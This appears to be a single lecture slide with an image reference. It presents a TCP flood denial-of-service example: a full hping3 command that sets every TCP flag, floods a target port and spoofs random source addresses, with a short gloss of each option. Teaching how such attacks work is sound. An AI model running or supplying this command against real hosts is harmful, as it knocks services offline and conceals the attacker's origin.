

# DDoS Attack : TCP flood example
hping3 -SARUPF -p [dst_port] --flood –rand-source [dst_ip]
-p  --destport
--flood    sent packets as fast as possible
--rand-source    random source address mode.
-SARUPF:
S =SYN,    A =ACK,    F =FIN,    R  =RST,    P =PUSH,    U =URG